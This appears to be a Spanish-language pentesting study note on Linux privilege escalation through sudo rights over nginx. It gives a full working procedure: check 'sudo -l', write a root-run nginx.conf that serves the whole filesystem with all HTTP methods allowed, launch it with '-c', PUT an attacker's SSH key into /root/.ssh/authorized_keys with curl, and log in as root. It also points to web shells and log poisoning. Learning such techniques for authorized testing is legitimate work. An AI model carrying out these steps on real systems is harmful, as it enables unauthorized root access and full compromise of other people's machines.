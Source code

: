 # Abusing web server configuration

Esta técnica implica abusar de herramientas que nos permiten crear servidores web como Nginx o Apache en caso de poder ejecutar como *root* estas, al ejecutar `sudo -l` veríamos que podemos ejecutar estas herramientas o mismo por alguna mala configuración que estas herramientas cuenten con permisos [[1. Linux Concepts#SUID (Set User ID)]], etc. 

Al poder ejecutar como root este tipo de herramientas podríamos crear un archivo de configuración para posteriormente cargarlo y exponer en un nuevo puerto la raíz del sistema, donde adicionalmente podríamos permitir métodos http como *PUT* o *POST* para, por ejemplo, dirigirnos a la ruta del directorio ssh de root (*/root/.ssh/*) y crear o editar el archivo *authorized_keys* donde cargariamos una clave pública de nuestra máquina de atacantes para así poder ganar acceso al sistema sin necesidad de proporcionar credenciales.

---
# Exploit

Una vez habiendo obtenido acceso al sistema, una de las primeras cosas que se nos vienen a la cabeza por validar estando en búsqueda de una vía potencial para escalar privilegios es verificar los permisos de ejecución que podría tener el usuario con el comando:

```bash
sudo -l
```

Una vez ejecutado el comando, visualizariamos aquellas configuraciones del archivo */etc/sudoers* donde los administradores del sistema insertaran aquellos binarios que podemos ejecutar como distintos usuarios indicando si será necesario ingresar credenciales o no, etc. En este caso, validando estas permisos, podríamos ver un output similar a este:

```bash
.....
User dobliuw may run the following commands on hostname:
    (ALL:ALL) nginx
......
```

En este ejemplo, podemos ver que el usuario actual *dobliuw* puede ejectuar como cualquier usuario (Incluyendo *root*) sin proporcionar contraseña la herramienta *nginx*. Entendiendo esto podemos visualizar el panel de ayuda de esta herramienta:

```bash
nginx -h

......
Options:
.......
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
.......
```

De esta manera vemos que la herramienta cuenta con una opción para indicar un archivo de configuración, por lo que podríamos intentar crear unarchivo de configuración tomando de guía el archivo por defecto */etc/nginx/nginx.conf* y haciendo uso de google podríamos buscar como realizar ciertas acciones que nos podrían interesar, como permitir el *dorectory listing*, como permitir métodos http como *PUT* o *POST*, etc.

```bash
nano /tmp/nginx.conf
```

- nginx.conf
```bash
user root; # This indicate that the server will run under the user root management

events {
	worker_connections 768;
}

http {
	server {
		listen  4444; # If we write localhost:4444 this wouldn't open to everyone, just for de machin itself
		root /; # Expose the path / 
		autoindex on; # Allow directory listing
		allow_methods ".*"; # Allow all http methods (GET, POST, PUT, etc)
	}
}
```

Una vez creado el archivo de configuración deseado, simplemente deberíamos abusar de nuestra posibilidad de ejecutar, por ejemplo, como cualquier usuario la herramienta *nginx* y cargar este archivo de configuración "malicioso" haciendo uso de la flag *-c*

```bash
sudo -u root nginx -c /tmp/nginx.conf
```

Hecho esto, estariamos exponiendo bajo el puerto indicado (*4444*) la raíz del sistema ( */* ) permitiendo todos los métodos http, por lo que podríamos realizar una solicitud curl para modificar o crear el archivo **authorized_keys** adjuntando en este nuestra clave ssh pública para posteriormente ganar acceso al sistema sin proporcionar credenciales.

```bash
curl -s -X PUT http://{target_ip}:4444/root/.ssh/authorized_keys -d "{ssh_key.pub}"
```

Una vez realizado esto, habríamos modificado el archivo authorized keys adjunto en el directorio root del sistema, lo que nos permitirá ingresar al sistema como root sin proporcionar contraseña gracias a tener nuestra clave pública adjunta en dicho archivo. ([[1. Linux Concepts#Keys in SSH]])

```bash
ssh root@{target_ip}
```

Esta es solo una manera en la cual podríamos ganar acceso al sistema, pero podemos tener en cuenta que las posibilidades son muchas, como desplegar una *web shell*, llevar a cabo un *log poisoning* ([[LFI - (Local File Inclusion)#Log Poisoning - ( **LFI** migrado a RCE - (Remote Command Execution) )]] ), podríamos crear un proxy inverso para interceptar tráfico, etc.
